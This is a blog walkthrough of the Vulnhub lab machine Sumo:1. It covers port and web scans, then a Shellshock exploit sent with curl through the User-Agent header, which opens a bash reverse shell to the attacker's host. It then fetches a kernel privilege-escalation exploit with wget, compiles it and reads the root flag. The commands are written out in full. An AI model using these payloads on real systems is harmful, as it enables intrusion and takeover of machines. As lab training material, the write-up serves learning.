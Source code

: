 ```yaml
---
date: 2020-06-17 00:36:33
layout: post
title: "Sumo Vulnhub Walkthrough"
subtitle:
description: Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners.
image: /assets/img/uploads/sumo/sumo-optimized.png
optimized_image: /assets/img/uploads/sumo/sumo-optimized.png
category: walkthrough
tags: vulnhub boot2root
author: madhavmehndiratta
paginate: false
keywords: sumo, sumo 1 vulnhub, vulnhub, sumo vulnhub walkthrough, sumo vulnhub writeup, vulnhub sumo, infosec articles, sumo vulnhub writeup
---
```


Today we will be doing Sumo:1 from Vulnhub. This machine is rated easy and good for beginners. This includes exploiting a shellshock vulnerability to get a reverse shell and then exploiting the old version kernel used by the VM to get root. I've added the IP to my hosts file, So Let's Begin!

```r
root@kali:~# cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
192.168.1.16    sumo.local
```

## Initial Enumeration and User Shell

I started the reconnaissance by running a port scan with Nmap, checking default scripts and testing for vulnerabilities.

```r
root@kali:~# nmap -sC -sV -oA nmap/sumo sumo.local

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-16 13:06 IST
Nmap scan report for sumo.local (192.168.1.16)
Host is up (0.00060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 08:00:27:97:C2:5C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.48 seconds
```

We have a port 80 open which displays a default web server page that says "It Works!"

<center><br>
<img src="/assets/img/uploads/sumo/port80.png">
</center>

<p align="justify">
Next I ran a gobuster scan to look for hidden directories, but didn't find anything interesting there. Then I performed a nikto scan to search for some web based vulnerabilities and found that this web server is vulnerable to <b>shellshock vulnerability.</b> </p>

```r
root@kali:~# nikto -h sumo.local
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.1.16
+ Target Hostname:    sumo.local
+ Target Port:        80
+ Start Time:         2020-06-16 13:11:34 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.2.22 (Ubuntu)
+ Server may leak inodes via ETags, header found with file /, inode: 1706318, size: 177, mtime: Mon May 11 23:25:10 2020
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html
+ Apache/2.2.22 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Uncommon header '93e4r0-cve-2014-6278' found, with contents: true
+ OSVDB-112004: /cgi-bin/test: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-112004: /cgi-bin/test.sh: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
+ OSVDB-3092: /cgi-bin/test/test.cgi: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 8595 requests: 0 error(s) and 13 item(s) reported on remote host
+ End Time:           2020-06-16 13:12:15 (GMT5.5) (41 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
If you don't know about shellshock vulnerability, I recommend reading about it <a href="https://en.wikipedia.org/wiki/Shellshock_(software_bug)">here.</a> I tested the vulnerability by running the <b>id</b> command.
```r
root@kali:~# curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://sumo.local/cgi-bin/test/test.cgi  

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Excellent, We were able to exploit this vulnerability. Now I executed a payload to open a reverse shell.

```r
root@kali:~# curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.1.6/9001 0>&1' http://sumo.local/cgi-bin/test/test.cgi  
```
I opened a netcat listener on the other terminal and we got the reverse shell.

```r
root@kali:~# nc -lvnp 9001
listening on [any] 9001 ...
connect to [192.168.1.6] from (UNKNOWN) [192.168.1.16] 60230
bash: no job control in this shell
www-data@ubuntu:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Root Shell
<p align="justify">
Getting root on this machine was quite easy and straightforward. This machine is using an old version of kernel. There are many exploits available to escalate the privileges. One of the most famous is Dirty Cow but I won't be using it here.
</p>

```r
www-data@ubuntu:/usr/lib/cgi-bin$ uname -a
uname -a
Linux ubuntu 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```

Instead I used <a href="https://www.exploit-db.com/exploits/33589"> this exploit</a> from exploitdb. I downloaded this exploit on my host machine and started a python http server and transferred it to the target machine in the tmp directory.

```r
www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp
cd /tmp

www-data@ubuntu:/tmp$ wget http://192.168.1.6:8000/33589.c
wget http://192.168.1.6:8000/33589.c     
--2020-06-16 03:50:50--  http://192.168.1.6:8000/33589.c
Connecting to 192.168.1.6:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3664 (3.6K) [text/plain]         
Saving to: `33589.c'                     

     0K ...         100%  242M=0s
2020-06-16 03:50:50 (242 MB/s) - `33589.c' saved [3664/3664]
```
Then I tried to compile the exploit but it gave an error. This error can be fixed by updating the path variables using the following command:

```r
www-data@ubuntu:/tmp$ PATH=PATH$:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/lib/gcc/x86_64-linux-gnu/4.8/;export PATH   
```

This time the exploit compiled without any errors, I gave the exploit executable permissions and after running the exploit, we were root!  

```r
www-data@ubuntu:/tmp$ gcc 33589.c -O2 -o exploit
gcc 33589.c -O2 -o exploit

www-data@ubuntu:/tmp$ chmod 777 exploit && ./exploit 0
chmod 777 exploit && ./exploit 0

stdin: is not a tty
id
uid=0(root) gid=0(root) groups=0(root)
python -c 'import pty;pty.spawn("/bin/bash")'

root@ubuntu:/tmp# cat /root/root.txt
cat /root/root.txt
{Sum0-SunCSR-2020_r001}
```
<p align="justify"> That’s it! Thanks for reading. Stay tuned for similar walkthroughs and much more coming up in the near future! If you have any queries, you can contact me <a href="/contact">here.</a> </p>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/MarkusM">Markus Magnusson.</a>